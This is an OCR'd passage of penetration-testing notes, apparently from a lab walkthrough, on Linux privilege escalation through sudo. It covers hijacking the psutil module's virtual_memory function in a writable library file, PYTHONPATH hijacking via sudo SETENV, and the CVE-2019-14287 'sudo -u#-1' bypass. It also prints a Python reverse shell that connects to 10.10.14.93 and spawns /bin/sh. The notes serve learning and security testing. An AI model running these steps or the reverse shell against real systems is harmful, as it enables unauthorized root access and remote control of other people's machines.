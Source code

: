 3. So we can execute this script with the privileges of another user, in our case, as root. We also have permission to view the script and read its contents.
4. See in the second line that this script imports the module psutil and uses the function virtual_memory().
5. look for this function in the folder of psutil and check if this module has write permissions for us.
```
grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/*
```
5. we have several results, check where you have a write permission on one of the scripts
```
ls -l /usr/local/lib/python3.8/dist-packages/psutil/init.py
```
6. Look for the function discovered earlier (def virutal_memory() in our case) and insert a command to test the vulnerability
```
def virutal_memory():
```
```
import os
```
```
os.system('id')
```
```
sudo /usr/bin/python3 ./mem_status.py
```
```
id executed
```
7. Organize the python3 reverse shell (which is originally a one liner) to the following and insert it insted of the system id command
```
import socket,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.93",4242))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1);os.dup2(s.fileno(),2)
pty.spawn("/bin/sh")
```
```
sudo /usr/bin/python3 ~/mem_status.py
```
## sudo -l
```
SETENV:
```
```
/usr/bin/python3
```
## create psutil.py modile inside /tmp
```
sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py
```
In this example, we moved the previous python script from the /usr/lib/python3.8 directory to /tmp. From here we once again call /usr/bin/python3 to run mem_stats.py, however, we specify that the PYTHONPATH variable contain the /tmp directory so that it forces Python to search that directory looking for the psutil module to import
## CVE-2019-14287 and requires only a single prerequisite. It had to allow a user in the /etc/sudoers file to execute a specific command.
all versions below 1.8.28
```
sudo -u#-1 <command showed in sudo -l>
```
